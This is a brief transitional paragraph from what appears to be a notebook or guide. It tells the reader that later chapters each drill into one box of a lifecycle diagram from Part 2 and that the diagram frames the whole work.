With the map in hand, everything that follows has a place to live: each later chapter is a deeper drill into one box of the lifecycle diagram in Part 2. Keep that diagram close — it is the frame the entire notebook hangs on.
